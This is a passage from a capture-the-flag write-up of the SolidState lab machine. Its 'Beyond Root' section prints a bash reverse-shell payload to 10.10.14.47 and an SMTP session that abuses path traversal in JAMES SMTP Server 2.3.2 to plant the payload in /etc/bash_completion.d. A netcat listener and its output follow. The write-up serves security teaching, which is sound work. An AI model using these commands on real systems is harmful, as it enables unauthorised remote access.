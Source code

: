 ```

root@solidstate:~# cat root.txt
b4c9723a************************

```

## Beyond Root

### Curious Case of /dev/tcp

Originally the first reverse shell payload I tried was `bash -i >& /dev/tcp/10.10.14.47/443 0>&1`. I set it manually:

```

root@kali# telnet 10.10.10.51 25
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
220 solidstate SMTP Server (JAMES SMTP Server 2.3.2) ready Wed, 29 Apr 2020 23:28:35 -0400 (EDT)
EHLO 0xdf
250-solidstate Hello 0xdf (10.10.14.47 [10.10.14.47])
250-PIPELINING
250 ENHANCEDSTATUSCODES
MAIL FROM: <'0xdf@10.10.14.47>
250 2.1.0 Sender <'0xdf@10.10.14.47> OK
RCPT TO: <../../../../../../../../etc/bash_completion.d>
250 2.1.5 Recipient <../../../../../../../../etc/bash_completion.d@localhost> OK
DATA
354 Ok Send data ending with <CRLF>.<CRLF>
FROM: 0xdf@10.10.14.47

'
bash -i >& /dev/tcp/10.10.14.47/443 0>&1

.
250 2.6.0 Message received
quit
221 2.0.0 solidstate Service closing transmission channel
Connection closed by foreign host.

```

And then triggered it, but got errors and the connection died:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.51.
Ncat: Connection from 10.10.10.51:49650.
: ambiguous redirect363837383831322D35.Repository.FileStreamStore: line 16: 1

```
